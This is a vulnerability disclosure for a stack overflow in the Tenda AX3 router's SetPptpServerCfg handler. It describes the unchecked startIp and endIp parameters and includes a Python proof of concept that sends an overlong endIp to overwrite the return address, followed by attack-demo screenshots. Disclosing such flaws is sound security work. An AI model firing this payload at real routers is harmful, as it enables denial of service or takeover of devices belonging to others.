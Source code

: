 # Stack Overflow Vulnerability in Tenda Router AX3 ([V16.03.12.11](https://www.tenda.com.cn/material/show/103476))

## Overview

In the latest version V16.03.12.11 of the Tenda Router AX3, a critical security vulnerability exists. This vulnerability occurs in the `formSetPPTPServer` function when handling requests from the `/goform/SetPptpServerCfg` page.

## Vulnerability Details

During the processing of the request, the `endIp` and `startIp` parameters are concatenated onto the stack. 

This concatenation operation does not perform effective length checks, leading to a stack overflow, **which can result in denial of service (DoS) or remote code execution (RCE)**.

![image-20250204014837728](./assets/image-20250204014837728.png)

## POC

```
from pwn import *
import requests

url = "http://172.18.231.176/goform/SetPptpServerCfg"

retaddr="bbbb"
payload = "1.2.3."+"a"*0x2ec+p32(retaddr)
data = {
    "startIp": "1.2.3.4",
    "endIp": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

## AttackDemo

![image-20250204020920791](./assets/image-20250204020920791.png)

![image-20250204021117739](./assets/image-20250204021117739.png)

![image-20250204021238249](./assets/image-20250204021238249.png)

![image-20250204021336279](./assets/image-20250204021336279.png)
